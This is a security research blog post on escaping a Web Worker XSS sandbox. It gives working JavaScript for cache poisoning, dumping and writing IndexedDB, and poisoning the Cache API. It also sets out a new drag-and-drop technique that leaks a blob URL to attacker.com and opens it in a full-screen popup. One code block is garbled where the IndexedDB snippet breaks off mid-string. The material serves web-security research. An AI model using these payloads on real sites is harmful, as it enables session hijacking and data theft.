

One edge case that you may encounter in Cross-Site Scripting (XSS) is being locked inside of a [Web Worker](https://developer.mozilla.org/en-US/docs/Web/API/Web_Workers_API/Using_web_workers). Your JavaScript payload will be running same-origin to the main window, but won't have access to many APIs that a regular XSS would.  
This post explores ways to maximize impact from the few APIs that are still usable, as well as completely escaping the sandbox. In the new technique, it shows an interesting interaction involving Drag and Drop to open URLs that an attacker normally wouldn't be able to open.

The research into this specific feature was inspired by sudi's ["XSS in Google IDX Workstation"](https://sudistark.github.io/2025/07/02/idx.html) writeup, posted in the [`#cool-research`](https://discord.com/channels/1110206757227216916/1174721205568290826/1400403526966054963) channel in Discord.

## Web Workers

Web Workers are essentially a separate thread to run JavaScript code in. They are recognizable by their [`Worker()`](https://developer.mozilla.org/en-US/docs/Web/API/Worker/Worker) constructor, which takes a *URL* similar to [Service Workers](https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API), but in addition also allows [`blob:`](https://developer.mozilla.org/en-US/docs/Web/URI/Reference/Schemes/blob) URLs for inline content.

```javascript
const worker = new Worker("worker.js");
```

```javascript
const blob = new Blob([`debugger;`], { type: "text/javascript" });
const url = URL.createObjectURL(blob);
const worker = new Worker(url);  // This works for Web Workers, but not Service Workers
```

Either of these methods may have injection points for you to control part of the Worker source code, allowing you to execute arbitrary JavaScript in the Worker context. It's also possible for the existing code to have *vulnerabilities* like a [`"message"`](https://developer.mozilla.org/en-US/docs/Web/API/Worker/message_event) event handler where the main window uses [`postMessage()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) to send data to the `worker` reference. It may handle data unsafely, resulting in XSS in the Worker.

Workers run in a different JavaScript global scope ([`WorkerGlobalScope`](https://developer.mozilla.org/en-US/docs/Web/API/WorkerGlobalScope)), and a separate thread. They don't share any variables/prototypes with the main window, it doesn't have access to the DOM or most storage APIs, and can't access many of the regular window APIs such as `location`, `window.open()`, or our trusty `alert()`.

Some allowed features are still useful because they run same-origin. We will look at these in detail in the next section to evaluate exactly what options we have to prove the impact of XSS inside a Web Worker.

See [Functions and classes available to Web Workers](https://developer.mozilla.org/en-US/docs/Web/API/Web_Workers_API/Functions_and_classes_available_to_workers) for an exhaustive list, and to be sure we aren't missing anything, run some testing JavaScript inside any Worker that logs all global variables:

```javascript
function props(obj) {
  const set = new Set();
  while (obj != null) {
    for (const key of Object.getOwnPropertyNames(obj)) {
      set.add(key);
    }
    obj = Object.getPrototypeOf(obj);
  }
  return [...set];
}
props(globalThis).forEach(p => console.log(p, globalThis[p]));
```

## Sensitive APIs

From the output of the above JavaScript snippet, we can gather some ideas to exploit. Below are the most common ones.

### Fetch API

The [`fetch()`](https://developer.mozilla.org/en-US/docs/Web/API/WorkerGlobalScope/fetch) function is still available to Web Workers, and will be executed with the same origin as the main window. That means you can request any path and expect cookies to be sent with it, as well as CORS to allow you to read the response. If there are APIs you can call with this, you're quickly disclosing sensitive information, but fetching generated HTML and parsing it can work just as well.

It doesn't stop at fetching data; you'll also be able to make any complex request that alters some data of the victim, CSRF-style. If there are CSRF tokens, you can just fetch them from any same-origin HTML page.

> **Note**: URLs passed to this version of fetch need to be *absolute*, so make sure to provide the same full domain as the worker is registered on here.

Another more complex idea to elevate your Worker XSS to a fully-featured XSS is to **poison the cache** of certain resources. Let's say there is some `/script.js` resource that is affected by an `X-Forwarded-Host` header in which we can inject arbitrary code. You'll be able to fetch this resource from the worker to poison it with malicious `headers:` and get it stored in the browser's own disk cache. When the victim then visits the page that loads this resource again, your version will be used, and any injected script will execute in the regular context.

```javascript
fetch("https://criticalthinkingpodcast.io/script.js", {
  headers: {
    "X-Forwarded-Host": `"-alert(origin)-"` // Example injection
  },
  cache: "reload"  // Make sure it generates a new cache entry
});
```

### postMessage

Possibly the most common way to escape from a Worker XSS in the past has been through [`postMessage()`](https://developer.mozilla.org/en-US/docs/Web/API/DedicatedWorkerGlobalScope/postMessage) vulnerabilities back to the main window. Because messages from the worker may be trusted, dangerous sinks can be reached. For large and complex applications, this is more often the case.

How this works is that the Worker has a `postMessage()` function available on its global scope, which sends the message to the main window. The main window needs to listen for [`"message"`](https://developer.mozilla.org/en-US/docs/Web/API/Worker/message_event) events on the Worker object to receive these.

```javascript
// main window
const worker = new Worker("worker.js");
worker.addEventListener("message", (e) => {
  alert(e.data);  // May be vulnerabilities here, data comes from worker
});
```

```javascript
// worker.js
postMessage("Hello, world!");
```

### IndexedDB

The only storage shared between the main window and a Web Worker is [IndexedDB](https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API); therefore, it is likely to contain information in an application that uses Workers. This API is essentially a key-value store that can be queried and written to.

Similar to the last examples, you may find sensitive information here or be able to change it to achieve impact. The main window could even use it unsafely, escaping the sandbox.

```javascript
// Reading (dump all)
const dbs = await indexedDB.databases();
for (let db of dbs) {
  const conn = await new Promise(r => indexedDB.open(db.name).onsuccess = e => r(e.target.result));
  if (!conn.objectStoreNames.length) continue;
  const tx = conn.transaction(conn.objectStoreNames);
  for (let storeName of conn.objectStoreNames) {
    const data = await new Promise(r => tx.objectStore(storeName).getAll().onsuccess = e => r(e.target.result));
    console.log(db.name, storeName, data);
  }
  conn.close();
}
// Writing (example)
const store = "messages";
const conn = await new Promise(r => indexedDB.open("app").onsuccess = e => r(e.target.result));
tx = conn.transaction([store], 'readwrite');
tx.objectStore(store).put({id: "1337", html: " c.keys());
  console.log(key, requests.map(r => r.url));
}
// Exploitation
for (const key of await caches.keys()) {
  const cache = await caches.open(key);
  const req = new Request("/page");
  const res = new Response(`<script>alert(origin)</script>`, {
    headers: { "Content-Type": "text/html" }
  });
  await cache.put(req, res);
}
location = "/page";
```

---

There is one more API only available in certain browsers, not mentioned in this article, check out [@joaxcar's challenge](https://joaxcar.com/fun/worker/alert_me_plz.html) to see if you can find it!

## New: Drag and Dropping Blob URLs

Now that you understand the existing techniques and their preconditions, it's time for the **new technique** that works in every situation (although Chrome-only), requiring one interaction on the attacker's site: dragging the mouse.

It abuses the fact that [`Blob`](https://developer.mozilla.org/en-US/docs/Web/API/Blob) objects can be created from Workers and can also be turned into URLs that have the same origin as any other page on the domain with [`URL.createObjectURL()`](https://developer.mozilla.org/en-US/docs/Web/API/URL/createObjectURL_static).

```javascript
const blob = new Blob(['<script>alert(origin)</script>'], {type: "text/html"});
const url = URL.createObjectURL(blob);  // 'blob:https://criticalthinkingpodcast.io/976ac7b7-6794-4916-8478-3df64b308bb6'
```

> **Hint**: While Blob URLs look like paths on the server, they are purely client-side, and the second you close the tab that created it, they will be deleted. See them as simulated pages that can have content and content types just like regular responses, but don't need to connect to the server.

You can copy this URL and paste it into the address bar, triggering the `alert()`. But if we try to redirect to it *from our attacker's site*, we will see `ERR_UNSAFE_REDIRECT` or "Not allowed to load local resource". Doing so instead from the target site will work fine; Chrome is preventing cross-origin sites from navigating to other origins' blobs. From inside the Web Worker, there is no API to directly redirect to the blob, so this is a problem.

One solution is to leak the URL to the attacker so they can set up a simple page that convinces them to copy-paste the URL into the address bar. This interaction is a bit far-fetched (pun intended), but the important thing to understand is that we can load it if there is **no initiator**. It would also work if the user right-clicks and opens the Blob URL `<a>` link in a new tab, for example.

The first part of this is easy, just send it away with an external fetch request:

```javascript
fetch("https://attacker.com/leak?" + new URLSearchParams({ url }));
```

The attacker will then see the Blob URL leaked in their logs and can prepare the next step.

> `GET /leak?url=blob%3Ahttps%3A%2F%2Fcriticalthinkingpodcast.io%2F976ac7b7-6794-4916-8478-3df64b308bb6`

For opening the link without being related to the attacker's page, we can start to look at the [Drag and Drop API](https://developer.mozilla.org/en-US/docs/Web/API/HTML_Drag_and_Drop_API). If you drag a link on the page to where the tab titles are and drop it there, it will be visited, and Blob URLs from other origins load as well!  
The final breakthrough is a similar interaction that does the same: dragging a URL *into a popup window*. On the [`"dragstart"`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/dragstart_event) event, we can call [`window.open()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/open) with specific `windowFeatures` to take up the whole screen. Dropping the URL anywhere on the page now will visit it in a new tab, without any initiator, executing the XSS stored in the Blob URL.

```html
<a href="blob:https://criticalthinkingpodcast.io/976ac7b7-6794-4916-8478-3df64b308bb6">Drag me</a>
<script>
ondragstart = () => {
  window.open("", "", "left=0,top=0,height=9999,width=9999");
}
</script>
```

To make dragging this URL more convincing, we can make use of the fact that a [DragEvent](https://developer.mozilla.org/en-US/docs/Web/API/DragEvent) lets you change the data after you've started dragging using [`dataTransfer.setData()`](https://developer.mozilla.org/en-US/docs/Web/API/DataTransfer/setData). That means all we need is to tell the user to drag an *image* anywhere, and when they start doing so, change the data to the leaked Blob URL.

```javascript
ondragstart = (e) => {
  window.open("", "", "left=0,top=0,height=9999,width=9999");
  e.dataTransfer.clearData();
  e.dataTransfer.setData("text/uri-list", "blob:https://criticalthinkingpodcast.io/976ac7b7-6794-4916-8478-3df64b308bb6");
}
```

All together, this creates a realistic attack where all the victim has to do is drag anywhere on the page in order to escalate a Web Worker XSS to a full one, enabling access to the DOM, localStorage, and any other APIs that are potentially necessary to show impact.

The following gist contains a simple vulnerable server that forwards a `postMessage` insecurely handled by the Worker. In summary, the exploit works as follows:

1. Gain XSS in the Web Worker.
2. Generate a new HTML [`Blob`](https://developer.mozilla.org/en-US/docs/Web/API/Blob) with your final XSS payload (eg. `alert(origin)`).
3. Make a `blob:` URL from it and leak that via an external `fetch()` to your server.
4. Prepare a page that tells the user to drag, then replaces any dragged data with the leaked Blob URL while opening a full-screen popup. When the user inevitably lets go of their mouse, it will automatically open it in a new tab, executing the final XSS.

<https://gist.github.com/JorianWoltjer/e81e7b1a3e892a3dcd250934a38f1174>




